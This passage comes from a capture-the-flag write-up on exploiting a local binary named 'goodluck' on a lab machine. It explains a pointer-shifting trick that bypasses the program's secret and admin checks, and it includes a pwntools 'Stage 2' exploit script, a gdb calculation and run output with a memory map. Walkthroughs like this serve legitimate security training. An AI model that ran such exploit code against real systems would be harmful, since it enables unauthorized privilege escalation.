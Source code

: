 I can use option 4 to shift EBX again, so I can realign where the computer thinks `hey`. This time, I’ll shift so that it tries to check `hey.secret` it gets `hey.user` instead. I can control the first four bytes of `hey.user`, and I leaked `hey.secret`, so I can set it to match, passing the first test.

![image-20200826060321674](https://0xdfimages.gitlab.io/img/image-20200826060321674.png)

Once I do that, the programs reference to `hey.admin`, EBX+0x78, now points to the middle four bytes in `hey.user`. The first byte will be overwritten with a 0 in the reading process, but the rest is some non-zero value, and will pass the second test, and go to debug.

EBX just needs to be shifted 4 more bytes from what it was in stage 1, to :

```

gdb-peda$ p 0x80002ff8 - 4
$4 = 0x80002ff4

```

I’ll add stage 2 to the script:

```

## Stage 2 - Access Debug
log.info(f'Writing Stage 2 exploit to {fn}')
sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
goodluck.sendline("4")
goodluck.recv(4096)
goodluck.sendline(fn)
goodluck.recv(4096)
goodluck.sendline("3")
print(goodluck.recv(4096).decode())

```

It prints out the start of `debug` and waits for a filename:

```

root@kali# python3 rootpwn.py 
[x] Connecting to 10.10.10.27 on port 22
[+] Connecting to 10.10.10.27 on port 22: Done
[*] xalvas@10.10.10.27:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     i386
    Version:  4.4.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
[+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 8366
[+] Found secret: 0x1019d3b

this function is problematic on purpose

I'm trying to test some things...and that means get control of the program! 
vulnerable pointer is at bffffbf0
memory information on this binary:

80000000-80002000 r-xp 00000000 08:01 404837     /home/xalvas/app/goodluck
80002000-80003000 r--p 00001000 08:01 404837     /home/xalvas/app/goodluck
80003000-80004000 rw-p 00002000 08:01 404837     /home/xalvas/app/goodluck
80004000-80025000 rw-p 00000000 00:00 0          [heap]
b7e1a000-b7e54000 r-xp 00000000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7e54000-b7e55000 r--p 0003a000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7e55000-b7fca000 r-xp 0003b000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7fca000-b7fcc000 r--p 001af000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
```